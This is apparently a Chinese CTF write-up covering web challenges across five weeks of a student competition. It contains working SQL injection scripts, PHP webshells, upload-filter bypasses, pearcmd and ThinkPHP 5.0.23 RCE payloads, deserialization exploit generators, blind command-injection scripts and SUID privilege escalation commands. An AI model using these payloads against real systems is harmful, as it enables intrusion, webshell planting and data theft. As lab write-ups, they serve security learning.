







# WEEK1

## 泄漏的秘密

有www.zip和robots.txt，buu的平台一扫就429，就不扫了

## Begin of Upload



直接抓包修改后缀上传成功


## Begin of HTTP


然后传post



看到了http的注视有一段base64


需要传入的参数是n3wst4rCTF2023g00000d


验证power，看到cookie中有这个参数，直接修改


改User-Agent


改referer


伪造xff头，如果不行就用其他的，直接burp插件全部加进去


## ErrorFlask


随便传两个，开启了报错模式


就在源码里面，在flask报错界面看到

## Begin of PHP


php的弱类型


一些用数组报错的类型，还有类型转换相关的

## R!C!E!


```
from multiprocessing.dummy import Pool as tp
import hashlib

knownMd5 = 'c4d038'

def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()

def findCode(code):
    key = code.split(':')
    start = int(key[0])
    end = int(key[1])
    for code in range(start, end):
        if md5(code)[0:6] == knownMd5:
            print(code)
            break
list=[]
for i in range(3):    #这里的range(number)指爆破出多少结果停止
    list.append(str(10000000*i) + ':' + str(10000000*(i+1)))
pool = tp()    #使用多线程加快爆破速度
pool.map(findCode, list)
pool.close()
pool.join()
```

爆破md5，这样纯数字能跑出来的话就不用很长时间的爆破了

最后得到114514可用，还有其他的21334902，m7cyhU5Dj8a2XhkY4vn0都可以

接下来就是命令执行了，首先是参数解析的问题

php 会自动把一些不合法的字符转化为下划线（注：php8以下），比如这个点就会被转换为下划线，另外这种转换只会发生一次。故直接传相当于传的变量名为 e_v_a.l

于是为了防止我们的点被自动转换，我们可以先让第一个下划线位置为不合法字符，从而转换为下划线，不会再转换后面的点。比如可以传入 e[v.a.l 。


至于过滤绕过的方式有很多，还可以用一些无回显的方式，只不过不方便

## EasyLogin

注册个账号登陆后


按ctrl c再按ctrl d可以回到命令行


这个是真没想到，但是这里好像没有用，直接爆破admin密码吧，在home目录下还有个admin


但是登陆后又到了那个页面，把所有包重放一遍


看到了这个比较奇怪的东西


# WEEK2

## 游戏高手


找到js，当大于100000分的时候也就行想api.php发送了`{"score": "100000"}`


## include 0。0


过滤了php://filter的过滤器，不能用base64和rot13了，但是还有一些其他的

```
php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php
```


## ez_sql


单引号报错


大小写绕过，可以联合注入，均有回显


```
?id=-1' union Select 1,2,database(),4,group_concat(tAble_name) from infoRmation_schema.tables Where Table_schema=Database()--+

?id=-1' union Select 1,2,database(),4,group_concat(coLumn_name) from infoRmation_schema.columns Where Table_name='here_is_flag'--+
```


## Unserialize？


直接反序列化就行

## Upload again!

直接上传一个带php代码的jpg，他说还是php，发现会检测文件内容

加GIF89a也不行，然后发现会检测php标签，用script绕过

```
<script language="php">
eval($_POST[1]);</script>
```


但是上传php还是不行，试试`.htaccess`

```
AddType application/x-httpd-php .jpg
```


上传成功，访问1.jpg


## R!!C!!E!!

先提示扫描，buu的环境扫不了一点，直接看git泄漏吧，最后得到了

```
http://b41c869c-fff9-4faa-8403-328a6dc9dbd8.node4.buuoj.cn:81/bo0g1pop.php
```


无参数rce


直接用system改user-agent


# WEEK3

## Include 🍐


提到的是lfi rce，看到filter和data被办了，多半就是打pearcmd.php的docker裸文件包含了，还提示看phpinfo

在register_argc_argv为on的环境下，通过包含pearcmd.php和传参可实现rce



```
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST[0]);?>+/tmp/cmd.php
```



被编码了，用burp发


然后包含这个文件执行命令


## medium_sql


仍然是单引号闭合


order by仍然可以用大小写绕过，测出有5个字段


但是对于union却报错了，大小写不能绕过，这样和大小写的绕过不一样，应该是不同的过滤

虽然updatexml可以用，但是没有返回报错信息，不过可以用到布尔盲注


写个脚本

```pythonp
import requests

url = "http://3acc596b-7c38-4bf2-b18d-5723a6ba7077.node4.buuoj.cn:81/?id=TMP0919"

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        # payload = "' aNd (asCii(sUbstr(database(), %d, 1))) > %d--+" % (i, mid)
        # payload = "' aNd (asCii(suBstr((seLect group_concat(table_name) from infoRmation_schema.tables wHere table_schema=database()), %d, 1))) > %d--+" % (i, mid)
        # payload = "' aNd (asCii(suBstr((seLect group_concat(column_name) from infoRmation_schema.columns wHere table_name='here_is_flag' limit 0,1), %d, 1))) > %d--+" % (i, mid)
        payload = "' aNd (asCii(suBstr((seLect flag from here_is_flag limit 0,1), %d, 1))) > %d--+" % (i, mid)

        r = requests.get(url + payload)
        # print(r.text)
        r.encoding = "utf-8"
        # print(url+payload)
        if "id: TMP0919" in r.text:
            head = mid + 1
        else:
            # print(r.text)
            tail = mid

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```


## POP Gadget

```
<?php
class Begin{
    public $name;
}

class Then{
    public $func;
}

class Handle{
    public $obj;
}

class Super{
    public $obj;

}

class CTF{
    public $handle;

}

class WhiteGod{
    public $func;
    public $var;

}
$a = new Begin();
$b = new Then();
$c = new Super();
$d = new Handle();
$e = new CTF();
$f = new WhiteGod();
$f->var = "cat /flag";
$f->func = "system";
$e->handle = $f;
$d->obj = $e;
$c->obj = $d;
$b->func = $c;
$a->name = $b;
echo urlencode(serialize($a));
```



## R!!!C!!!E!!!



过滤了很多，这里是执行命令注入了，不是eval执行的，可以用bash盲注

```python
import time
import requests
url = "http://a2bf320a-b5fe-419b-9f01-713418159bef.node4.buuoj.cn:81/"
result = ""
for i in range(1, 15):
    for j in range(1, 50):  # ascii码表
        for k in range(32, 127):
            k = chr(k)
            payload = f"if [ `cat /flag_is_h3eeere | awk NR=={i} | cut -c {j}` == '{k}' ];then sleep 2;fi"
            length = len(payload)
            payload2 = {
                "payload": 'O:7:"minipop":2:{{s:4:"code";N;s:13:"qwejaskdjnlka";O:7:"minipop":2:{{s:4:"code";s:{0}:"{1}";s:13:"qwejaskdjnlka";N;}}}}'.format(length, payload)}
            t1 = time.time()
            r = requests.post(url=url, data=payload2)
            t2 = time.time()
            if t2 - t1 > 1.5:
                result += k
                print(result)
        result += " "

```

```
这个代码片段看起来是一个 Bash 脚本，用于检查一个名为 "/flag_is_h3eeere" 的文件中的特定字符。让我解释一下每个部分的含义：

if [...] then sleep 2; fi: 这是一个条件语句，如果方括号中的条件为真（true），则执行 sleep 2 命令。sleep 2 是一个简单的命令，表示脚本会暂停执行 2 秒。

cat /flag_is_h3eeere | awk NR=={i} | cut -c {j} == '{k}': 这部分是条件的核心，它通过一系列的命令来获取文件中的某个字符，并与给定的字符 {k} 进行比较。

cat /flag_is_h3eeere: 使用 cat 命令将文件 "/flag_is_h3eeere" 的内容显示出来。
awk NR=={i}: 使用 awk 命令选择文件的第 {i} 行。NR 是行号。
cut -c {j}: 使用 cut 命令选择行中的第 {j} 个字符。
最后，整个条件检查是否等于给定的字符 {k}。

这段代码的目的似乎是在特定条件下延迟执行，具体条件取决于文件 "/flag_is_h3eeere" 中的某个字符是否等于给定的字符 {k}。
```


但是跑的比较慢

非预期：`ls / |script xxx 这样写到根目录`

```
cat /flag_is_h3eeere|te\\e /var/www/html/2	# 利用\来转义绕过，然后通过管道符把读取的内容写在根目录下，然后我们直接访问写到根目录下的文件就行
```

## GenShin


访问secr3tofpop，然后提示传入参数name，看到回显，尝试ssti


双括号过滤了，用%绕过，lipsum被过滤了，可以用get_flashed_messages来获取globals


Popen被过滤了，用加号绕过


## OtenkiGirl

nodejs的不想看，原型链污染

# WEEK4

## 逃


长度不一样，一眼字符逃逸，可控的是key，但是要控制cmd变量的值

```
";s:3:"cmd";s:9:"cat /flag";}一个29个字符，没一个bad多一个字符，29个bad加上这里即可实现对应的逃逸
```


## More Fast


因为destruct会在程序结束时类销毁的时候才会触发，这里抛出了异常，可以利用fast destruct提前调用到destruct触发pop链

利用GC垃圾回收机制提前触发Destruct，我平常喜欢直接删除掉末尾的大括号

```
<?php

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}
class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
}

class Web{
    public $func;
    public $var;
}

class Crypto{
    public $obj;
}


$start = new Start();
$pwn = new Pwn();
$reverse = new Reverse();
$web = new Web();
$crypto = new Crypto();
$web->func = "system";
$web->var = "cat /fla*";
$pwn->obj = $web;
$reverse->func = $pwn;
$crypto->obj = $reverse;
$start->errMsg = $crypto;

$a = serialize($start);
echo $a."\n";
echo urlencode($a);
```


官方wp用的是数组下标的方式

## midsql


过滤了空格，可以用/**/绕过，页面没有回显尝试盲注，没有等于号了，用like替代

```
import requests

url = "http://029583ba-6c25-473f-97dc-f802e0aad9af.node4.buuoj.cn:81/?id="

result = ""
i = 0
while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        # payload = "1/**/and/**/if((ascii(substr(database(),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'ctf'),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'items'),%d,1)))>%d,sleep(3),1)" % (i, mid)
        payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(name)/**/from/**/items),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # print(payload)
        try:
            r = requests.get(url+payload,timeout=1.5)
            # print(r.text)
            tail = mid
        except:
            head = mid + 1

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

## flask disk


一共有三个界面，一个是显示源文件是app.py，一个是上传文件，一个是输入pin码，以为是pin码伪造，但是不是

flask开启了debug模式下，app.py源文件被修改后会立刻加载。

所以只需要上传一个能rce的app.py文件把原来的覆盖，就可以了。

```python
from flask import Flask, request
import os

app = Flask(__name__)


@app.route('/')
def index():
    try:
        cmd = request.args.get('cmd')
        data = os.popen(cmd).read()
        return data
    except:
        pass
    return "1"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```


语法错了就会崩溃

## InjectMe

session伪造+SSTI绕过，给的个dockerfile难得搞了

## PharOne


index.php可以上传文件，html注释中有class.php，unlink可以触发phar反序列化

在文件上传时发现对内容__HALT_COMPILER()进行了过滤，可以使用gzip等压缩进行绕过

```
<?php
class Flag{
    public $cmd = "echo \"<?=@eval(\\\$_POST['a']);\">/var/www/html/1.php";
}
@unlink("1.phar");
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER(); ?>");
$o = new Flag();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
system("gzip 1.phar");
rename("1.phar.gz","1.jpg");
```


压缩后就没有这个内容了


上传1.jpg文件后在class.php unlink函数处使用phar协议触发即可写入1.php Shell。


## OtenkiBoy

原型链污染，跳过

# WEEK5

## Unserialize Again


注释提示看cookie，找到了php文件


仍然是可以触发phar反序列化

```
<?php
class story{
    public $eating = 'cat /f*';
    public $God='true';
}
@unlink("1.phar");
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<php __HALT_COMPILER(); ?>");
$o = new story();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

但是这里就存在wakeup的绕过了，我们需要修改反序列化中的对象数


改成大于2的数，然后重新计算签名

```
from hashlib import sha1

file = open("1.phar","rb").read()
text = file[:-28]  #读取开始到末尾除签名外内容
last = file[-8:]   #读取最后8位的GBMB和签名flag
new_file = text+sha1(text).digest() + last  #生成新的文件内容，主要是此时Sha1正确了。
open("new.jpg","wb").write(new_file)
```

上传点不是原来那里，在这个php文件中可以file_put_content上传（其实这里可以直接上传php非预期）


触发的时候要传东西，不然file_get_contents报错了到不了file_exist

## Final


报错发现是thinkphp5.0.23，直接打rce


System被禁用了


写一个马

```
http://5ba1ea7f-3229-4ae5-945e-672bf8593993.node4.buuoj.cn:81/index.php?s=captcha&test=-1

POST:  _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```


读/flag又没有权限，我不知道为什么没有回显，官方的wp提到了这个问题


利用cp的suid提权

```
cp /flag_dd3f6380aa0d /dev/stdout
```

如果stdout报错没有的话，就随便复制到一个文件，然后查看即可


## 4-复盘



需要结合misc对流量分析


参考前面其实是通过docker裸文件包含来写马的，记得用burp发包，防止编码


flag访问不到，suid提权

```
gzip -f /flag -t
```

## NextDrive

后面三个不想复现了，可以参考官方wphttps://shimo.im/docs/R3sGgZdrlyE6nL8T/read

最后是读/proc/self/environ

## Ye's Pickle

pickle反序列化

## pppython?

计算pin码


参考链接：

https://blog.csdn.net/Nanian233/article/details/134233786

https://shimo.im/docs/R3sGgZdrlyE6nL8T/read

https://blog.csdn.net/m0_73728268/article/details/134200635